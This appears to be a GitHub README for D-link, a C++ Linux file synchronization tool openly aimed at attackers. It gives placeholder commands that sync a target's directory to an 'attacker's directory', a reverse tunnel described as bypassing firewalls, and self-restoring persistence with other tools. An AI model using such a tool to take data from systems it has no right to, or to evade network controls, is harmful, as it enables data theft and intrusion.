




# D-link

D-link is a lightweight Linux file synchronization tool written in C++.
1. Supports reverse file synchronization operations.
2. Directory monitoring, real-time updates.
3. Access control: Clients are only allowed to automatically upload and delete files, and cannot download sensitive files from the server. Even if synchronized files are deleted from the server, clients will automatically restore them.
4. Client-side deletion of server files.
5. Persistence: Can be used with Tyrant or S-Clustr to form a powerful self-healing network cluster.

# Usage

```
$ ./dlink -h
```


## D-link Forward Tunnel (Client to Server File Synchronization)

Example: (Real-time synchronization of the target directory to the attacker’s directory)

Server:



```
$ ./dlink server --port <LOCAL-PORT> --path <PATH>
```


Client:


```
$ ./dlink client --endpoint <IP:PORT> --path <PATH>
```


Server:



## D-link Reverse Tunnel (Server to Client File Synchronization)

PS: Typically used to bypass firewalls and prevent data interception.

Example: (Real-time synchronization of the attacker’s directory to the target directory)

Server:



```
$ ./dlink server --port <LOCAL-PORT> --path <PATH> --reverse
```


```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --reverse
```


